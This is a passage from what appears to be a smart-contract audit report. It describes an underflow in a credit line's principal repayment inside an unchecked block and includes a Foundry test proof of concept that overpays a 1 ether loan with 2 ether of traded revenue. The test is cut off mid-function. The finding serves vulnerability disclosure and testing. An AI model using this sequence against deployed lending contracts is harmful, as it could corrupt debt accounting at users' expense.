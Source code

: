             // update individual credit line denominated in token
            credit.principal -= principalPayment; // @audit-info potential underflow without an error due to the unchecked block
            credit.interestRepaid += interest;
            credit.interestAccrued = 0;
    
            emit RepayInterest(id, interest);
            emit RepayPrincipal(id, principalPayment);
    
            return credit;
        }
    } }

To demonstrate the issue, copy the following test case and paste it into the `SpigotedLine.t.sol` test file. Then run `forge test --match-test "test_lender_use_and_repay_underflow"`.

Following scenario causes the repayment to underflow:

1.  Borrower borrows `1 ether` of `revenueToken`
2.  `2 ether` worth of `revenueToken` is claimed and traded from the revenue contract
3.  Use all of the previously claimed funds (`2 ether`) to repay the line of credit (= `1 ether`)
4.  `credit.principal` underflows due to `principalPayment` is larger than `credit.principal`

    function test_lender_use_and_repay_underflow() public {
        uint256 largeRevenueAmount = lentAmount * 2;
    
        deal(address(lender), lentAmount + 1 ether);
        deal(address(revenueToken), MAX_REVENUE);
        address revenueC = address(0xbeef); // need new spigot for testing
        bytes32 id = _createCredit(address(revenueToken), Denominations.ETH, revenueC);
    
        // 1. Borrow lentAmount = 1 ether
        _borrow(id, lentAmount);
    
        // 2. Claim and trade largeRevenueAmount = 2 ether (revenue)
        bytes memory tradeData = abi.encodeWithSignature(
          'trade(address,address,uint256,uint256)',
          address(revenueToken),
          Denominations.ETH,
          1 gwei,
          largeRevenueAmount
        );
    
        hoax(borrower);
        line.claimAndTrade(address(revenueToken), tradeData);
    
        (, uint256 principalBeforeRepaying,,,,,) = line.credits(line.ids(0));
        assertEq(principalBeforeRepaying, lentAmount);
    
        // 3. Use and repay debt with previously claimed and traded revenue (largeRevenueAmount = 2 ether)
        vm.prank(lender);
        line.useAndRepay(largeRevenueAmount);
        (, uint256 _principal,,,,,) = line.credits(line.ids(0));
    
        uint256 underflowedPrincipal = principalBeforeRepaying;
    
        unchecked {
          underflowedPrincipal -= (largeRevenueAmount);
        }
    